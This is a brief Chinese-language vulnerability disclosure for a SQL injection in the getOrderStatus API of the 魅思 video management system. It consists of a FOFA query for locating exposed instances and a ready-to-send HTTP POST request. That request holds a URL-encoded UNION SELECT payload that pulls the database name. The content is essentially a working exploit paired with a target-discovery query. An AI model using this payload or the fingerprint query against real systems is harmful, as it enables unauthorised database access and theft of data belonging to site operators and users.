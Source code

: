 # 魅思视频管理系统getOrderStatus存在SQL注入漏洞

魅思视频管理系统getOrderStatus存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。fffff

## fofa

```javascript
app="魅思-视频管理系统"
```

## poc

```javascript
POST /api/getOrderStatus HTTP/1.1
Content-Type: application/x-www-form-urlencoded
user-agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36

orderSn=%27%29+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28IFNULL%28CAST%28database%28%29+AS+NCHAR%29%2C0x20%29%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+-
```

![image-20240917160329467](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409171603549.png)
